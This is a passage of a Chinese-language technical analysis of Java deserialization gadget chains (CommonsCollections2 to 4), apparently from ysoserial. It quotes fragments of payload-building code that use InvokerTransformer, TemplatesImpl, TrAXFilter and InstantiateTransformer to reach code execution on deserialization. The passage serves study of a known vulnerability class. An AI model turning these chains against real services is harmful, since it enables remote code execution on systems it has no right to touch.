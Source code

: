 ```
// mock method name until armed
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));     
.........
// switch method called by comparator
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
//使用反射机制改变私有变量~ 不然，会在之前就执行命令，无法生成序列化数据。
//反序列化时，会调用TemplatesImpl的newTransformer方法。 

```

根据熟悉的`InvokerTransformer`作用，最终会调用`templates.newTransformer()`执行恶意java代码。

*   `CommonsCollections3`是`CommonsCollections1`的变种，将执行链换了下：
    
    ```
    TemplatesImpl templatesImpl = Gadgets.createTemplatesImpl(command);
    .............
    // real chain for after setup
    final Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(TrAXFilter.class),
            new InstantiateTransformer(
                    new Class[] { Templates.class },
                    new Object[] { templatesImpl } )};  
    
    ```

查看`InstantiateTransformer`的`transform`方法，可以看到关键代码：

```
Constructor con = ((Class) input).getConstructor(iParamTypes);  //input为TrAXFilter.class
return con.newInstance(iArgs);

```

即：`transformer`执行链会执行`new TrAXFilter(templatesImpl)`。正好，`TrAXFilter`类构造函数中调用了`templates.newTransformer()`方法。都是套路啊。

```
public TrAXFilter(Templates templates)  throws 
TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();//触发执行命令
    _transformerHandler = new TransformerHandlerImpl(_transformer);
    _useServicesMechanism = _transformer.useServicesMechnism();
}

```

*   `CommonsCollections4`是`CommonsCollections2`的变种。同样使用`InstantiateTransformer`触发`templates.newTransformer()`代替了之前的执行链。
    